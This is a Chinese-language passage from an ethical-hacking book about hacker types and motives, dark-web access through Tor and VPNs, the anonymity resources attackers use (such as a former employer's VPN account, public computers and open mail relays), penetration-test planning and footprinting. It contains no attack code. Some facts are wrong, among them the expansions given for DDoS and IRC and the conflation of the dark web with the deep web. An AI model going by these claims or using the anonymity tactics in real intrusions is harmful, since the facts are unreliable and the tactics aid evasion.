你需要评估你的系统的安全性，以便能更好地了解你所面对的是什么。大多数处理安全产品的供应商总是提供咨询服务，指导人们如何保护其网络和计算机系统免受可能存在于内外的恶意用户的侵害。了解如何保护系统的最佳方法是研究黑客的心态。在这种背景下，还将概述人们由于黑客而面临的一些挑战。了解是什么驱动了黑客的行为也是好的。

许多黑客一直说，公众通常无法理解他们，这句话中确实有事实依据。判断很容易，但要理解现实非常困难。主要问题是，大多数围绕黑客的刻板印象都是由于人们对现实的误解形成的。黑客还根据他们的能力以及促使他们从事此类的动力进行分类分类。有些黑客非常熟练，他们一直在追求知识。归结底，显而易见的是每个黑客都是为了自己的利益。值得注意的是，黑客行为既有负面方面也有积极方面。

纵观历史，黑客一直在追求不同形式的知识。他们也享受面临的每一次挑战带来的快感。然而，一些渴望成为黑客的人技能有限。另一方面，黑客也被证明是创新的，而且他们喜欢冒险。他们总是寻找可以使用新方法来利用不同的网络和计算机系统。他们总是研究人们忽视的某些领域。在某些情况下，他们还会问自己一些问题，关于如果他们执行某些活动（包括更改安装程序中的某些代码）。某些黑客还假设他们对当前正在使用的机械和电子设备进行一些改进。

各种形式的证据表明，黑客可以为了不同的利益进行攻击。例如，他们可能有政治动机。其他公司也可能雇他们来消除竞争。在某些情况下，他们为了财务利益黑入不同的网络。某些恶意行为已被证明对许多个人产生了负面影响。值得注意的是，某些黑客并不关心防火墙后那些确保网络安全的个人会发生什么。他们总是进行攻击，因为他们将在过程中获得巨大收益。

这些攻击引起的一些负面问题包括危及负责系统安全的某些人员的工作。在某些情况下，公司内部的一些人可能正针对各种形式的信息，并意图将其用于自己的利益。这类人被称为内部黑客。他们通常在不同的服务器上根文件，同时共享他们成功访问的每一条信息。有时，他们还会删除敏感信息。很难识别某些怀有恶意意图的个人。在某些情况下，他们还可能对负面影响组织内的某些员工。

某些恶意用户具有犯罪背景。建议在招聘人员时进行某些检查。他们过去的行为可能会以不同的方式影响他们，并可能损害你组织的完整性。虽然一个人可能有干净记录，但并不意味着他们不能从事犯罪活动。每个罪犯总是从哪里开始。虽然黑客行为很糟糕，但这些人通常在技术进步中起着关键作用。当黑客能够渗透网络时，安全专家通常努力确保他们制定了可以用于加固网络的不同措施。

如果世界上没有黑客，人们很有可能不再关注能够防止数据泄露和工具扫描工具的存在。这样的世界在任何方面都不坏；主要问题是技术不会那么先进。技术确保了人们拥有不同的就业机会，该领域也逐步进步。


尽管人们不断制定出许多技术安全解决方案，但黑客行为并无法彻底终结，因为其中一些黑客总是领先一步。总有人在保持警惕，试图攻破不同的计算机系统和网络。这些目标可以通过形成蠕虫和木马形式的病毒来实现。上述病毒对网络和计算机系统具有不同的影响。人们应当采取必要措施，以确保他们的网络和系统得到良好的保护。

通常入侵网络和计算机系统的黑客已经存在几十年了。随着互联网在 20 世纪 90 年代的普及，黑客活动变得流行。主流媒体也更多地讨论了黑客话题。黑客有很多，但只有少数在渗透不同网络方面因其高超的技艺而广为人知。在大多数情况下，黑客通常使用别名，以便公众无法获知其真实身份。

由于存在黑帽黑客和白帽黑客，描述一个典型的黑客很容易的。在大多数情况下，他们是反社会的人，有大量的时间独处。每个黑客都拥有一套独特的技能，他们使用不同的方法来实现他们的最终目标。根据技能树，可以将黑客分为以下几类：

### 脚本小子 (Script Kiddies)
他们通常是计算机新手，利用各种黑客工具、文档和漏洞扫描器。这些工具中的一些可以在互联网上免费获得。他们也对幕后发生的事件一无所知。尽管他们并不精通黑客知识，但他们拥有的知识足以让人头疼；然而，他们非常粗心，在参与了不同的恶意活动后不知道如何掩盖自己的踪迹。他们可以通过其数字足迹被追踪。

### 犯罪黑客 (Criminal Hackers)
这些黑客拥有渊丰富的知识和技能，而且他们还会开发自己的黑客工具。他们编写不同的程序和脚本，这些程序也会被道德黑客和脚本小子使用。在大多数情况下，他们通常编写蠕虫和其他类型恶意软件形式的病毒。他们可以轻松访问任何系统，并且知道如何隐藏自己的踪迹。他们从不留下任何数字足迹。他们可以让一切看起来像是某个特定个人入侵了网络或计算机系统。高级黑客非常神秘。在与其他分享任何信息之前，他们必须被认为有访问此类信息的价值。某些黑客的排名并不高；但为了表现出色，他们必须掌握一些独特的信息，并利用这些信息来向知名黑客证明自己。在信息安全方面，这些黑客是最糟糕的敌人。尽管他们可能被视为专业人士，但他们与脚本小子并没有太大。

### 安全研究人员 (Security Researchers)
这些人是同时也广为人知的 IT 专业人士。他们通常跟踪计算机系统、网络和不同应用程序的活动。他们的主要关注可能存在的漏洞。他们开发出不同的工具和脚本，用来利用其中的一些漏洞。如果不存在这些专家，可以以开源形式访问的安全工具将会少很多。一些安全研究人员经常在博客和其他媒体平台上发布他们的发现。当你关注他们通常产生的内容时，你可以了解更多关于可能影响你的网络或计算机系统的当前漏洞。

最重要的是黑客的技能水平。此外，他们的动机来源也同样重要。

### 行动黑客 (Hacktivists)
他们总是试图通过黑客活动传播社会和政治信息。他们的主要焦点是提高公众对特定问题的意识。有时，黑客可能关注提高大麻合法化以及当前世界其他重大问题的意识，他们还可能出于特定原因发起 `DDoS`（直接拒绝服务）攻击。

### 网络恐怖分子 (Cyberterrorists)
他们通常攻击政府或其他任何公共实体，并出于不同的动机入侵他们的计算机系统和网络。例如，他们可能针对电网或其他领域。他们还会窃取政府机密信息并为自己利用。一些国家非常重视网络恐怖分子的威胁，这就是为什么他们使用不同的安全协议，确保政府系统不会被黑客访问。

### 雇佣黑客 (Hackers for Hire)
这些黑客总是参与有组织犯罪。其中一些黑客组成组织，并总是一起执行可能针对政府和其他机构的各种攻击。雇佣黑客的人数并不大。在大多数情况下，大多数黑客更倾向于为了好访问不同的网络，同时也试图阐述他们拥有的知识。有时，对组织最大的威胁可能就在建筑内部，他们可能拥有有效的网络账户。结果是，他们获取网络不会遇到太大困难。

## 什么驱动了黑客

在大多数情况下，他们之所以黑客是因为他们可以。黑客对某些人来说更像是一种爱好。他们中的一些人研究进入系统的不同方法，以及在尝试访问特定系统时存在的某些不可能的情况。尽管有多种类型的黑客，但此处的关注重点是那些试图访问计算机系统和网络的黑客。

当他们智胜政府和其他知名机构时，他们大多数人都受益匪浅。由于他们从事非法活动，他们通常会登上头条新闻。当他们访问某个具有价值和敏感信息的实体网络时，他们总是会对自己感觉良好。大多数黑客通常从访问计算机网络时获得的满足感中受益；他们最终会变得痴迷。他们经历的肾上腺素飙升驱动着他们入侵其他系统。黑客还从渗透复杂计算机网络时体验的快感中获得良多。

黑客通常推崇个人主义。他们所拥的信息很容易分享，因为他们认为信息应该是免费的，且每个人都可以访问。他们还假设网络攻击与现实世界中的物理攻击也是大不径的。在某些情况下，黑客可能也会误解他们的受害者。此外，他们可能并不熟悉黑客过程中产生的后果。

大多数黑客通常说，他们并不打算通过他们参与的某些恶行造成任何形式的伤害或收益。大多数黑客从不寻求实际的回报。他们只是想证明某个观点，而这种感觉对大多数黑客来说是充实的。首先，大多数人的自尊心在这些实例中得到了提升。当一个人能够同时黑入多个不同的网络时，他们可能会上瘾，并想要入侵其他计算机网络。一些黑客还希望确保他人的生活变得痛苦。他们可能还想由于某些行为而成名。黑客可能产生的动机包括好奇心、报仇、破坏、挑战、为了经济利益而窃取、勒索、蓄意、敲诈和企业间谍。


大多数黑客通常会引用这些动机之一来解释他们为什么要黑入某个网络。特别是在经济条件不佳时，这些动机中的某些会经常被提及。一些成功访问网络的黑客可能在寻找有价值的信息，并利用这些信息来索要一些资金，以帮助他们解决某些财务问题。他们有时也会进行竞争。此外，黑客还可能出于各种原因试图对他人进行报复，或者他们只是想在打发无聊的同时满足自己的好奇心。

在大多数情况下，人们认为自己可能并不拥有对黑客来说可能具有巨大价值的重要信息。这种心态是不恰当的，因为它会激励黑客。他们努力确保自己已经访问了特定的网络。值得注意的是，黑客有时之所以参与此类活动是因为他们有能力做到。黑客还可能关注高知名度的系统。当一个黑客黑入某个系统时，他们将能够成功进入由不同技能水平的黑客组成的不同圈子。他们还会利用网络中的大多数漏洞，并总是寻找他们可以攻破的一切。如果一个黑客在访问网络后未能复制任何信息，可能无法证明他们确实访问过该网络。

尽管黑客更关注各种漏洞，并且他们可能篡改不同的网站，但他们也知道此类活动可能对个人的业务没有好处。当一个网站被黑入后，管理层和其他人员可能会决定处理漏洞以及存在的威胁。以下是计算机网络泄露变得容易的一些原因：

1. 大量的人口在使用互联网。
2. 计算机网络提供了某种形式的匿名性。
3. 目前有大量的黑客工具。
4. 有许多无线网络确保黑客可以轻松地隐藏他们的数字足迹。
5. 目前开发的某些数据库的当前代码已变得复杂。
6. 大多数孩子都拥有计算机知识。
7. 黑客在被捕后不太可能受到调查。

某些攻击很少被报道，而且当黑客被捕获时，他们也不会被起诉。当黑客被捕获时，他们主要谈论他们的服务对社会有何益。他们还会指出自己正在研究一些现有的漏洞。无论黑客是否被捕获，对他们来说，重要的是获得了“名声和荣誉”。当他们被当局捕获时，他们赖以生存的奖励机制就会受到威胁。

当黑客没有被捕获时，他们的恶意活动将不会被注意到。有时，为了股东的利益，保持沉默是好的，因为他们在获得此类负面消息时可能会恐慌。目前的隐私和安全法律正在快速变化，因为必须提供泄露通知。内部泄露的案例也变得常见，这有助于展示某些组织中发生情况的真实性。当发生内部泄露时，责任方被迫辞职。目前，当泄露发生时，联邦和国际法律法规将规定此类活动应向相关部门报告。无论是内部泄露、外部泄露，还是磁带丢失，都应该进行报告，因为它们会以某种方式影响你的业务。

## 计划与执行攻击

黑客使用不同的攻击风格。一些黑客通常会提前为大型攻击做准备。他们总是先收集各种信息。他们收集信息的技巧是有方法论的。要追踪使用这种技术的黑客也很困难。其他黑客（主要是脚本小子/script kiddies）总是在尝试考虑其行为后果之前就采取行动。这样的黑客可能会尝试在甚至不隐藏身份的情况下访问特定网络。捕获这种黑客很容易，因为他们总是在没有计划的情况下进行。恶意用户广为人知，他们拥有许多关于组织内部计算机网络的知识。有时，这些黑客会尝试对他们非法访问的网络进行探测和刺探。他们有时也会做一些愚事，网络管理员也可以追踪到他们。

尽管黑客已经形成了地下社区，但大多数黑客都避免与他人分享信息。他们大多数时候都是独立工作的。

当黑客通信时，他们通常利用私密留言板、黑客网站、匿名电子邮件地址和互联网相对聊天（`IRC`）。你可以登录这些网站之一，并了解更多关于黑客在做什么的信息；这些网站可以在暗网上找到。

## 关于暗网以及如何使用 Tor 浏览器访问它

万维网非常大。它包含了大量信息，要阅览所有这些信息可能花费大量时间。分为表面网和暗网/深网。一些常见的网站包括 `Wikipedia`（维基百科）和 `Google`。暗网属于避免公开暴露的政府和企业。在暗网中，你可以找到政府报告、医疗记录和财务记录。此类信息无法通过搜索引擎访问，并且受到强大防火墙的保护。在暗网中，你将处于各种形式的危险之中。

### 暗网隐藏的主要原因

存储在暗网上的某些信息并非面向公众；这就是为什么暗网被隐藏的原因。尽管这些信息被隐藏了，但据推是安全的。主要问题是这些信息存在于网上，因为它们是以表面网应用的形式存在的。至于暗网，它有点复杂。尽管它是万维网的一部分，但它运行在私有服务器上，且只能通过特定手段访问。高水平的匿名性非常有用，当局无法轻易关闭某些网站。由于暗网确保了高水平的匿名性，人们利用这种局面，甚至参与了毒品等非法物质的销售。

你可能遇到过 `cybercrime`（网络犯罪）这个词。你也可能听过一些以金钱为目标的网络罪犯。他们收集各种形式的数据，包括个人信息和信用卡信息。所有这些信息都可以在暗网上进行交易。暗网上也有非法交易正在进行。这些交易包括毒品、火器和非法野生动物的销售。

### 你如何访问暗网网站？

在你表达对访问暗网的兴趣之前，你应该理解该平台上发生了许多非法行为。你可以采取必要的预防措施；然而，要保持完全匿名并不容易。请自担风险访问该平台。

*   下载并安装 `Tor Browser`。`Tor` 浏览器允许你访问暗网。该平台的创建是为了确保美国的情报信息得到保护。使用该浏览器，你可以访问位于暗网上的 `onion` 网站。在使用 `Tor` 时，你可以匿名浏览。浏览器还会告知用户不同的可能揭示其身份的因素。




- 使用虚拟专用网络（VPN）。虚拟专用网络可以确保你可以匿名浏览互联网。你的当前位置将被掩盖，你将处于一个假定的位置。需要注意的是，`Tor` 仅掩盖你的身份，但平台并不掩盖你的位置。有许多 VPN 服务，你可以使用 `NordVPN` 或 `ExpressVPN`。
- `DuckDuckGo`。在浏览暗网时，`DuckDuckGo` 是你的朋友。它是一个帮助你轻松操纵暗网的搜索引擎。你可以通过 `DuckDuckGo` 搜索引擎轻松地访问暗网索引网站。
- 务必注册一个安全的电子邮件地址。某些邮箱地址是安全且不可追溯的。你可以使用这些邮箱地址注册 `.onion` 网站。你可以考虑的一些安全邮箱平台包括：
- `TORbox`
- `ProtonMail`
- `Mail2Tor`

所有列出的选项都有 `.onion` 域名，你可以使用 `TOR` 浏览器访问它们。普通浏览器在这种情况下无法工作。

## 关于暗网搜索引擎

`.onion` 域名只能在暗网上使用。它们与普通域名相似，无法通过普通浏览器访问。存在一些无害的 `.onion` 地址。暗网上有很多网站，你必须花些精力才能找到它们。你还应该注意，你可能会在暗网上遇到一些非法活动。

## 在暗网上玩安全吗？

尝试探索未知可能很令人兴奋；然而，了解暗网上现有的某些危险是好的。坏人会一直时刻监视以获取各种信息。执法人员也会出现在暗网上，试图捕获参与非法活动的人员。

## 访问暗网的安全指南

我们注意到暗网上正在发生许多可怕的事情。你可以采取一些必要的预防措施来避免它们。为了保持安全，请遵循以下指南：

1. 确保 `Tor` 浏览器是最新版本。访问暗网上的 `.onion` 域名站点时，请使用 `Tor` 浏览器。此外，你的 `Tor Browser` 应该保持更新，以便在访问某些网站时确保安全。



2. 使用信誉良好的 VPN。之前讨论过使用 VPN 的重要性。VPN 隐藏你的位置，而 `Tor` 浏览器有助于隐藏你的身份。你使用的 VPN 应该是信誉良好的。之前也强调了一些例子，包括 `ExpressVPN`。

3. 不要使用宏。宏通常运行包括 `JavaScript` 在内的脚本。使用宏可能会打开某些蠕虫，风险水平将很高。如果你在暗网上浏览时被要求启用脚本，你应该始终三思考虑，因为你将暴露在不同形式的恶意软件面前。

4. 小心你下载的内容。首要任务是避免恶意软件和病毒。某些黑客会在不同的文件中植入恶意代码，人们在为时晚之前无法轻易发现。你可以使用虚拟机，这样你就可以保持安全。

5. 始终改变你的心态。很多人可能认为暗网是安全的，因为网络安全专家可能致力于确保互联网免受网络犯罪的影响。要始终改变你的心态，因为暗网是不安全的。你应该保持警惕，绝不要信任你在平台上遇到的任何人。

有些人胆子较小。他们可能选择在暗网上只充当“游客”。如果你曾经访问过暗网，你会发现关于该平台的大部分信息都是，没有传言。平台上有很多非法活动正在进行，这就是为什么你应该确保自己的安全。你还应该保持警惕，因为暗网上的某些人总是试图利用一些无知者。黑客喜欢暗网，因为他们可以在平台上轻松地讨论任何事情。他们利用具有 `.onion` 域名的留言板和社交媒体网站。

大多数恶意用户利用了某些人的无知。他们对现实世界安全的某些方面也了解更多。黑客通常采取以下方法：

1. 大多数计算机网络没有经过妥善管理；某些计算机系统没有经过适当的补丁、监控或加固。即使存在防火墙和访问控制系统，攻击者也可以轻松访问此类网络。某些恶意用户的行为可能不会以任何方式被追踪。此外，他们可能拥有完全的网络访问权限，这意味着他们可以利用它来牟利。

2. 大多数安全和网络管理员可能无法跟上系统内部某些攻击方法和新漏洞。在某些情况下，网络管理员可能忙到无法跟踪网络上的每项活动。此外，他们也可能没有注意到网络上的某些异常活动，因为他们可能未能设定目标，而且时间管理能力也较差。

3. 信息系统随着时间的推移变得复杂。有时，网络和安全管理员可能无法跟踪网络上发生的一切，因为信息系统随着时间的推移变得复杂。攻击者总是会利用这种信息有利于自己。他们总会在网络和安全管理员不知情的期间进行攻击。

4. 攻击通常缓慢进行，无法被轻易检测。

5. 攻击也可能在下班后进行，这意味着网络和安全管理员不在现场跟踪网络内发生的活动。

要了解更多关于黑客如何渗透这些网络的信息，你可以关注讨论黑客的杂志，这些杂志每月至少出版一次或两次。

大多数黑客都从错误中学习。当他们犯错时，他们总是知道离访问某些网络又近了一步。他们总是利用所学的知识来规划未来的攻击。作为一名伦理黑客，你也必须从错误中学习。

## 管理匿名性

聪明的黑客想要确保他们的身份被隐藏。黑客总是优先考虑隐藏他们的踪迹。黑客的成功取决于他们是否保持未被发现。他们也不应该引起任何形式的怀疑，以便他们将来可以随所欲地访问系统。黑客用于保持匿名的一些资源包括：

1. 可能由前雇主或朋友拥有的 VPN 账户
2. 商场、学校甚至图书馆的公共电脑
3. 代理
4. 开放无线网络
5. 匿名邮箱
6. 不安全的计算机
7. 开放邮件中继

如果一个黑客制定了一个精良的计划，他们就不会被轻易追踪。

## 第 3 章：制定黑客计划

本章将重点关注以下领域：

- 制定伦理黑客目标
- 选择要测试的网络
- 检查一些黑客工具


作为一名黑客，在开始黑客过程之前必须制定一个计划。该计划将确保你能够轻松地渗透网络，并对你正在做的事情充满信心。由于执行黑客攻击具有很强的严肃性，制定一个周密的计划是有好的。你可以从在你的计算机上测试程序开始，同时概述、记录并定义你的目标。确保你已经确定了测试标准，同时熟悉并收集各种有助于你促进整个黑客过程的工具。在本章中，你将获得关于如何创建一个良好的黑客环境的逐步指南，这可以提高你入侵网络时的成功率。作为一名道德黑客，在实施已制定的黑客计划之前，应该获得客户和管理层的批准。

### 建立你的目标

作为一名黑客，应该相应概述你的目标。作为道德黑客，你的主要目标可能包括调查网络存在的漏洞，因为核心重点是确保网络变得更加安全。帮助你概述目标的步骤包括：

1. 定义一些具体的目标。将你的所有目标与组织内的业务目标对齐。查看层在整个过程结束后想要获得什么。
2. 制定一个在特定时刻开始和结束 Schedule。黑客时间线还应该以具体的日期和时间的形式概述。

建立所有目标可能需要一些时间；尽管如此，这一切都是值得的。目标将提供指导。如果你有任何疑虑，应该始终参考你制定的所有目标，以便保持不偏离。

## 如何确定要黑入的特定系统

你可能有很多计算机网络，但你无法同时评估所有网络。确保黑客项目已拆分成若干部分，以便整个过程易于管理。你可以根据已执行的分析来决定想要测试的特定系统。在此过程中你应该回答的一些问题包括：

1. 哪些是最关键的系统？某些系统在没有相应授权的情况下访问会导致一些麻烦，你还可能遭受巨大损失。
2. 哪些系统看起来很容易被黑入？
3. 哪些系统没有进行相应的记录？

在制定所有目标之后，你现在可以决定想要测试的特定系统了。制定目标的主要原因是它们可以帮助你概述预期，你也可以更准确地估计在整个过程中将使用的时间和资源。你可能需要测试的一些设备包括：



1. 路由器和交换机 - 交换机连接同一个网络上的计算机，而路由器将许多网络连接在一起。
2. 防火墙
3. Web、应用程序和数据库服务器
4. 无线访问点和桥接器
5. 电子邮件和文件
6. 工作站、平板电脑和笔记本电脑
7. 用于存储机密信息的移动设备
8. 客户端和服务器操作系统

当你处理小型网络时，可能测试所有内容。应该测试一些面向公众的主机，它们包括 Web 服务器和电子邮件。此外，让道德黑客过程具有灵活性也是好的。始终从看起来脆弱的网络开始。还应考虑以下因素：

1. 用于运行运行的特定操作系统
2. 网络中存在的应用程序
3. 存储在网络上的关键信息的具体数量

## 攻击树分析

攻击树分析是黑客创建一个流程图以概述他们将如何攻击某个网络的过程。攻击树分析通常由安全团队在进行高级风险分析时使用。在大多数情况下，这种分析是在规划新网络项目时执行的。如果你想提高自己的黑客技巧，你应该以方法论的方式计划你的每种攻击方法。

主要问题是绘制攻击树所需的时间。此外，这种情况下需要大量的专业知识。现在，也可以使用计算机来生成攻击树。你可能使用的某些工具包括 `SecurITree`。攻击树分析的示例所示。



与漏洞评估相比，道德黑客更加详细。作为一名道德黑客，你应该寻找关于不同系统的大量信息。例如，你应该寻找有关该组织及其网络的信息。由于道德黑客是灵活的；你可以利用不同的黑客技术。如果你不确定从哪里开始，你应该评估一个可见性很系统。你也可以更多关注特定网络的防火墙。

## 制定测试标准

当发生沟通不畅时，执行道德黑客测试时系统很容易崩溃。为了避免此类挑战，你应该制定文档测试标准。标准应该包括：

1. 正在执行的具体测试
2. 测试执行的时间以及总测试时间
3. 你对特定系统的了解程度
4. 每个测试将如何执行以及将使用的 `IP` 地址
5. 发现不同漏洞后采取的最佳步骤

执行道德黑客的一些合适实践包括：

### 时机

这完全取决于时机。时机概念适用于道德黑客等活动。在执行某些测试时，你应该确保组织内的业务流程不受影响。应该避免的有害情况包括沟通不畅。此外，避免对高流量的电子商务网站造成 `Dos` 攻击也是好的，特别是在白天。如果许多人正在进行特定的项目，他们应该对时机达成一致，以便实现最终目标。

有时，始终通知 `ISP`（互联网服务供应商）是好的。在他们意识到你将测试系统以寻找某些漏洞后，他们将阻止你的任何流量，以防他们怀疑防火墙上通常出现的任何恶意行为。

测试时间线应该包含执行不同测试时的某些短期日期。里程碑也应该概述。你可以制定一个时间线并将数据输入电子表格中，以便提供某种合适形式的指导。

### 具体测试

你可能被要求执行渗透测试。此外，你可能想执行某些特定测试，包括破解密码和尝试访问不同的 Web 应用程序。有时，人们在评估网络时还会进行社会工程测试。无论具体的测试是什么，你可能不想揭露有关测试细节的一些信息。记录重要的主要原因是它有助于消除未来可能出现的任何形式的沟通不畅。有时，人们还会利用屏幕操作。你可能对本应该执行的常规测试一无知；然而，如果你使用自动化工具，可能无法更多地了解你已执行的测试。

### 盲测与知识评估


对于你将要测试的系统拥有大量的知识是有益的。虽然这些知识可能并非必须，但你至少应该对系统有基本的了解，这样当你准备进行黑客攻击时，就能轻松地保护自己，确保你没有留下任何可以追溯到你身上的数字足迹。获取此类信息并不困难；你只需要进行调查，就可以对你准备访问的系统有更好的理解。当你进行一些背景研究时，你就不会盲目地黑入系统。在进行评估时，你使用的技术始终取决于你的需求。

最合适的方法是计划进行无限制的攻击。具有恶意动机的黑客不会在使用有限范围的情况下黑入系统。此外，确认你是否想要执行测试，并且这些测试不会被网络管理员以及安全提供商发现也是好的。你还必须进行物理安全测试和社交工程。如果有太多人知道你即将测试系统，他们可能会改变习惯，导致测试结果不准确。然而，这并不意味着你不应该通知任何人。你应该在组织内部有一个主要的联系人，并且他们应该拥有权威。

## 位置

你正在进行的测试决定了你应该运行测试的位置。主要目标是从恶意黑客可以轻松访问的位置对网络进行测试。你还可以确定网络是否会被组织内部的人黑入；因此，确保所有基础都已涵盖是好的。你可以结合不同的测试，并可以在内部和外部执行它们。

你可以进行的一些测试包括破解密码和评估网络基础设施。有时，寻求可能拥有如何黑入网络知识的外部人员是明智的，因为他们可以对防火墙、`routers` 和不同的 Web 应用程序等设备进行测试。对于外部攻击，你应该有一个稳定的互联网连接。在某些情况下，你可能还必须使用外部代理服务器。你还可以为你的计算机分配一个无法追溯到你身上的 `IP address`。为了更清楚地查看网络，你应该将它插入到防火墙之外的网络中。内部测试相当容易，因为你只需要对网络和组织的服务器拥有一些物理访问权限。你还可以使用 `DLS line` 或电缆调制调器。

## 如何应对网络中存在的漏洞

当漏洞漏洞，你需要想出合理的技术来封堵组织内部存在的安全漏洞。你不一定需要一直黑入系统，因为这在过程中会导致系统崩溃。你需要遵循你概述的路径一直下去，直到你无法访问网络为止。如果你有任何疑问，你应该已经列出你的目标，并在确保每个目标都已实现后停止。如果你发现某个特定的漏洞，你应该联系合适的人，以便他们快速修复问题。如果你不及时修复问题，某些人可能会利用当前的漏洞，并造成不可逆转的损害。员工也应该尝试确保他们没有违反劳动协议。

## 愚蠢的假设

当你假设某些事情时，你可能无法实现目标。以下是人们在准备黑入网络时的一些假设。

1. 网络在测试过程中是可用的。
2. 你可以假设你拥有所有必要的测试工具。
3. 你利用的测试工具可能会减少网络崩溃的可能性。
4. 你可能知道每个测试的所有风险。

你应该记录你所拥的所有假设。

## 选择工具执行安全评估

你使用的安全评估工具取决于你准备运行的各种测试的不同因素。你可以使用电话或网络进行一些伦理黑客测试。在进行全面测试时，你必须具备必要的工具。如果你不知道应该使用的特定工具，你将在前面的章节中学习更多关于黑入网络时使用的某些工具。其中一些工具是免费的，或者是商业的；你可以根据情况使用它们来实现你的目标。

你必须了解你所掌握的所有黑客工具的应用。其中一些工具还附有说明书，而另一些工具的说明书记录不全，这可能会令人沮丧。你可以去搜索一些新闻组和留言板，以了解更多关于这些工具如何操作。

某些工具可能证明是有害的，因为它们可能会影响你的网络健康。在使用这些某些工具时要小心。你应该对所有可用选项有深入的理解。如果你对这些某些工具没有深入理解，那么在测试过程中就不应使用任何工具。这些措施可以确保你不会受到 `DoS conditions` 的影响。此外，你在过程中不会丢失任何数据。你也可能不理解某些开源工具的重要性。如果某些免费工具被证明不值得使用，你可以去购买商业版本，因为它们可能证明是有效的。其中一些工具可能很贵；但最重要的是它们的功能。始终确保你出的每一分钱都物有所值。

### 第 4 章：黑客攻击方法论

在本章中，主要重点将放在：

- 检查黑客过程中的一些成功步骤
- 如何获取有关组织的信息
- 扫描网络
- 寻找网络上的漏洞

在你专注于成为一名伦理黑客之前，你需要对如何制定运行良好的方法有基础知识。伦理黑客涉及渗透网络以及对其进行修补。一些经过证明的技术也可以在你专注于学习更多关于黑客的知识时指导你。当你使用特定的方法论时，你可以轻松实现你的目标。此外，你将能够专业地操作并从你的时间和精力中获得很多。

### 为测试做好准备

在过去，黑客过程是非常手动的。现在，人们可以利用不同的工具来实现各种目标。这些某些工具确保你可以执行测试，并且在测试过程中涉及的步骤更少。虽然这些工具非常方便，但更多了解后台发生的情况也是好的。伦理黑客也可以比作软件测试过程。你必须能够逻辑思考，这样你就可以轻松与系统组件交互，同时学习更多它们是如何工作的。你应该从小收集信息。此外，当你开始测试网络时，你有很多目标和测试要运行。你会越走越近，直到发现所有存在的安全漏洞。


道德黑客过程中使用的流程与恶意黑客使用的流程大相似。主要区别在于恶意黑客和道德黑客的目标及动机。此外，每个人的实现目标的方式也各相同。另一个主要区别是，道德黑客会尝试寻找系统中存在的漏洞，并解决这些中的每一个问题。而对于恶意黑客，他们会利用现有的漏洞，并访问不同的信息以为自己所用。如今，恶意个人的攻击可能从不同的角度发起。建议测试每一个可能的点，包括客户端网络、合作伙伴和供应商。其他可以进行测试的区域还包括笔记本电脑、无线局域网（无线 LAN）和家庭用户。

当你开始作为道德黑客测试你的技能时，你应该跟踪你所进行的所有测试。此外，还要密切关注你使用的工具以及你获得的结果。你记录的信息可以从以下方面帮助到你：

1. 跟踪以前在执行测试时哪些方法是有效的。
2. 这些信息有助于证明你没有出于恶意意图黑入系统。
3. 当出现任何问题时，将测试与入侵检测系统以及其他日志文件相关联。
4. 你还应该编写最终报告。

删除做一些通用笔记外，你还可以对你的结果进行截图，因为它们可能也会很有用。截图可以在以后使用，因为它们证明了某些事件的发生。此外，当你拟定财务报告时，它们也会很有用。取决于你所使用的特定工具 set，截图将作为你的证据。此类证据在尝试展示网络中存在不同的攻击向量和漏洞时也很有用。

你的主要关注点应该是模拟和收集可能损害系统的信息。在执行测试时，你可以对网络中的其中一台计算机进行部分攻击。在某些情况下，你也可以直接攻击整个网络。你主要是在寻找可以被恶意用户利用的弱点。内部系统也应该进行全面的评估。在寻找漏洞时，检查每个系统是如何相互连接的，以及某些私有系统是如何运行的。你应该研究那些未免受恶意用户保护的信息。

在执行道德黑客攻击时，你可能会进行盲测，并从公司名称等基础信息开始。这种方法确保了你是从零开始的，并且你能够获得黑客也可以轻松访问的敏感信息。主要问题是这种技术可能会花费更长时间，而且你可能注意到网络中存在的某些安全漏洞。道德黑客不应该总是担心他们的数字足迹被追踪，因为他们是在合法地执行每项任务。尽管这种黑客可能在合法行动，但建议采取隐蔽策略。黑客用来隐藏其每项行动的某些技术将在后续章节中详细讨论。他们还利用不同的防御措施。

### 观察他人所见

你可以获得大量关于公司及其计算机系统的信息。这些信息也可以被轻松访问，这是通过一种被称为“足迹探测”（foot printing）的技术实现的。还可以以下方式收集信息：

1. 使用网络浏览器搜索有关特定组织的信息。在这种情况下，像 `Google` 这样的搜索引擎会很有用。
2. 执行网络扫描、评估漏洞并探测开放端口，以确定关于获取的各种信息。如果你从内部访问网络，可以使用包括 `GFI LanGuard` 在内的端口扫描器，这样你也可以看到什么是可以的。无论你使用何种探测技术，都应该限制你对特定组织收集的信息。你使用的时间也很重要。需要考虑的一些主要因素还包括组织的大小以及组织内部信息的复杂性。

##收集公共信息

你关于特定组织及其网络收集的信息量可能可以在互联网上轻松获得。你的主要任务是找到现有信息。此类信息确保了黑客可以轻松针对组织内的特定区域。他们可能还会更关注特定的个人，例如公司内部的高管。

用于收集有关目标组织信息的技术包括：

1. **网络搜索**：当你对一个组织进行网络搜索时，你可以获得以下信息：
    * 员工的姓名及其联系信息
    * 某些相关的公司日期
    * 注册备案文件
    * SEC 备案
    * 合并与收购
    * 关于组织变更、重大举措和新产品的新闻稿
    * 专利和商标
    * 演示文稿、网络直播和文章

`Microsoft` 正在确保他们在搜索领域取得了进展。`Bing` 是一个搜索引擎，该公司位列第二。对于许多黑客来说，他们倾向于使用 `Google`。该搜索引擎是免费且易于访问的，大多数黑客都知道如何利用这个工具为自己服务。

在使用 `Google` 时，你可以使用以下技术：
